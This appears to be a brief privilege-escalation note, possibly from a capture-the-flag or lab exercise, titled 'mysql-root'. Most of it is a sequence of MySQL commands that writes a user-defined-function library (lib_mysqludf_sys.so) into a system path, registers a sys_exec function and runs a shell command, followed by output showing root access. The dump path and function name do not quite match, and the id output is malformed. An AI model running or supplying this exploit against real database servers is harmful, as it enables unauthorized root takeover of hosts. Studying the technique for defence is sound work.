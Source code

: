 # mysql-root

mysql> create table npn(line blob);
mysql> insert into npn values(load_file('/home/npn/lib_mysqludf_sys.so'));
mysql> select * from npn into dumpfile '/usr/lib/lib/_mysqludf_sys.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('id > /tmp/out; chown npn.npn /tmp/out');

cd ~/
id
uid=0(root) gid=0(root groups=0(root)
